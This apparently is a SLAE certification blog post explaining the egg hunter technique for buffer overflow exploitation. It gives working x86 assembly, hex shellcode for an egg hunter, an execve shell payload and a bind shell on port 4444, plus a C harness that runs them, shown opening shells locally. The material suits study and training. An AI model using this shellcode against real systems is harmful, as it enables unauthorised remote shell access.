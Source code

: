 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-XXXXX

## Assignment#3: What to do ?
This assignment is divided in 3 steps:
* Define and explain an egg hunter
* Create a working demo of an egg hunter
* Make the egg hunter easily configurable for different payloads

Now, let's get to work.
=

## Step 1: Define and explain an egg hunter
The Egg hunting technique is used when there are not enough available consecutive memory locations to insert the shellcode.  Instead, a unique “tag” is prefixed with shellcode. 

When the “Egg hunter” shellcode is executed, it searches for the unique “tag” that was prefixed with the large payload and starts the execution of the payload. 

In classic stack based buffer overflow, the buffer size is big enough to hold the shellcode. But, what will happen if there is not enough consecutive memory space available for the shellcode to fit in after overwrite happens.

In general the egg hunter code needs to follow three rules:
1) It must be robust
    * This requirement is used to express the fact that the egg hunter must be capable of searching through memory regions that are invalid and would otherwise crash the application if they were to be dereferenced improperly. It must also be capable of searching for the egg anywhere in memory.
2) It must be small
    * The size is a principal requirement for the egg hunters as they must be able to go where no other payload would be able to fit when used in conjunction with an exploit. The smaller the better.
3) It should be fast
    * In order to avoid sitting idly for minutes while the egg hunter does its task, the methods used to search VAS should be as quick as possible, without violating the first requirement or second requirements without proper justification.

An amazing PDF from "hick.org" describes the whole process and how to use it:
[Link to PDF](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)

## Step 2: create a working demo of an egg hunter
The egg hunter code is divided in four major parts:
1) The first step initialize the registers to NULL. 

2) The next step is to perform a page alignment operation on the current pointer that is being validated by doing a bitwise OR operation on the low 16-bits of the current pointer (stored in edx) and then incrementing edx by one. This operation is equivalent to adding 0x1000 to the value in edx. The reason these two operations are separated is to avoid nullbytes inside the shellcode.

3) The third step is to use a systemcall 'access' which will take an address as a parameter and check for us if the memory address is valid. If not the systemcall will return '0xf2' telling us the given address is invalid and then loop until the result returns a valid address.

4) The last step is to check two times the presence of the egg. Because, if we don't do this check a second time the egg hunter code will jump on the wrong memory address and then execute an invalid code.

The egg hunter shellcode:
```nasm
global _start

;FIRST PART
_start:
	xor ecx, ecx 			;Initialize ecx to NULL
	mul ecx				;Initilize eax and edx to NULL

;SECOND PART
_firstStep:
	or dx, 0xfff			;Do a OR on dx register, dx == 0xFFF

_secondStep:
	inc edx				;Add 1 to edx, edx == 0x1000

    ;THIRD PART
	lea ebx, [edx+0x4]		;ebx now holds the value of edx + 0x4
	push byte +0x21			;Push 0x21 on the stack
	pop eax				;Pop 0x21 which is the systemcall value of access
	int 0x80			;Go for it
	cmp al, 0xf2			;Compare the systemcall return value to 0x2f
	jz _firstStep			;If zero, the program will jump to '_firstStep'. Which means the return value is not a valid memory address

    ;FOURTH PART
	mov eax, 0x50905090		;This instruction will move our egg value inside eax
	mov edi, edx			;Move the address stores in edx to edi
	scasd				;This instruction will compare the value inside eax and edi
	jnz _secondStep			;Jump back to '_secondStep' if the comparaison is false
	scasd				;We check a second time the presence of our egg before executing the shellcode
	jnz _secondStep			;Jump back to '_secondStep' if the comparaison is false
	jmp edi				;Jump to our payload
```

Let's compile it:
```console
kali@kali:/tmp$ nasm -f elf32 -o egg_hunter.o egg_hunter.nasm
kali@kali:/tmp$ ld -m elf_i386 -z execstack -o egg_hunter egg_hunter.o
```

We can obtain the hexadecimal representation of the previous code by using the following command:
```console
kali@kali:/tmp$ objdump -d ./egg_hunter |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```

The following C code is used to test our egg hunter:
```c
#include <stdio.h>
#include <string.h>

// egg_hunter.nasm shellcode is stored here
unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char shellcode[] = \
"\x90\x50\x90\x50" // first egg
"\x90\x50\x90\x50" // second egg
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

void main()
{
	// print the length of the shellcodes
	printf("Egg hunter shellcode Length:  %d\n", strlen(egg_hunter));
	printf("Egg shellcode Length:  %d\n", strlen(shellcode));

	// convert shellcode to a function
	int (*ret)() = (int(*)())egg_hunter;
	// execute the shellcode has a function
	ret();

}
```

Let's compile it and execute it:
```console
kali@kali:/tmp$ ./test_shellcode 
Egg hunter shellcode Length:  37
Egg shellcode Length:  31
$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
$ whoami
kali
$ exit
```

## Step 3: make the egg hunter easily configurable for different payloads
For this part, we will use the bind_shell.nasm code from the assignment#1.

We first need to compile it:
```console
kali@kali:/tmp$ nasm -f elf32 -o bind_shell.o bind_shell.nasm
kali@kali:/tmp$ ld -m elf_i386 -z execstack -o bind_shell bind_shell.o
```

We can obtain the hexadecimal representation of the previous code by using the following command:
```console
kali@kali:/tmp$ objdump -d ./bind_shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

We will use exactly the same C code has shown before to test a different payload. In this case our bind shell.
```c
#include <stdio.h>
#include <string.h>

// egg_hunter.nasm shellcode is stored here
unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

// the bind shell code is stored inside this variable precede by two eggs
unsigned char shellcode[] = \
"\x90\x50\x90\x50" // first egg
"\x90\x50\x90\x50" // second egg
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

void main()
{
	// print the length of the shellcodes
	printf("Egg hunter shellcode Length:  %d\n", strlen(egg_hunter));
	printf("Egg shellcode Length:  %d\n", strlen(shellcode));

	// convert shellcode to a function
	int (*ret)() = (int(*)())egg_hunter;
	// execute the shellcode has a function
	ret();

}
```

Let's compile the code and execute it:
```console
kali@kali:/tmp$ ./test_shellcode 
Egg hunter shellcode Length:  37
Egg shellcode Length:  125

```

We can use netcat to check if the port 4444 is open:
```console
kali@kali:/tmp$ netstat -antp | grep 4444
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      2172/./test_shellcode
```

Finaly, netcat can be used to access our bind shell 
```console
kali@kali:/tmp$ nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
whoami
kali
exit
```